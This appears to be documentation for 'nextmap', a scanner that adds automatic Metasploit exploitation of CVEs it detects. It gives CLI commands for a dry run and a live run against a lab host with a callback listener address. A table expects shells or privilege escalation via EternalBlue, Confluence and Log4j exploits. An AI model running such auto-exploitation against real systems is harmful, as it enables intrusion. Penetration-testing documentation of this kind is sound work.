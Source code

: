### Code Structure

```
src/
├── msf.rs                    # NEW - Metasploit integration
│   ├── MetasploitClient      # Main client struct
│   ├── MetasploitExploit     # Exploit metadata
│   ├── ExploitResult         # Exploitation results
│   ├── auto_exploit()        # Auto-exploitation engine
│   └── exploit_database      # CVE→MSF mapping
├── cve.rs                    # CVE detection (existing)
├── main.rs                   # CLI integration (modified)
└── models.rs                 # Data structures (existing)
```

---

## 🧪 Testing

### 1. Dry-Run Test (Safe)

```bash
# Test against intentionally vulnerable target (Metasploitable)
nextmap --target 192.168.1.200 -p top1000 -s --cve-scan --msf-exploit --msf-dry-run --msf-lhost 192.168.1.100
```

**Expected Output:**
```
🔹 DRY-RUN MODE - Exploits will NOT be executed

🎯 Processing host: 192.168.1.200
  🔍 Found CVE-2017-0144 (Critical) on port 445
    🔹 [DRY-RUN] Would exploit with: exploit/windows/smb/ms17_010_eternalblue
```

### 2. Real Exploitation Test (Controlled Environment)

```bash
# Against Metasploitable VM (intentionally vulnerable)
nextmap --target 192.168.1.200 -p 445 -s --cve-scan --msf-exploit --msf-lhost 192.168.1.100
```

### 3. Test Scenarios

| Scenario | Target | CVE | Expected Result |
|----------|--------|-----|----------------|
| Windows 7 (Unpatched) | Port 445 | CVE-2017-0144 | ✅ Session opened |
| Atlassian Confluence 8.0 | Port 80 | CVE-2023-22515 | ✅ Privilege escalation |
| Linux (Apache Log4j) | Port 8080 | CVE-2021-44228 | ✅ RCE shell |
| Updated Windows 10 | Port 445 | CVE-2017-0144 | ❌ Exploit fails (patched) |

---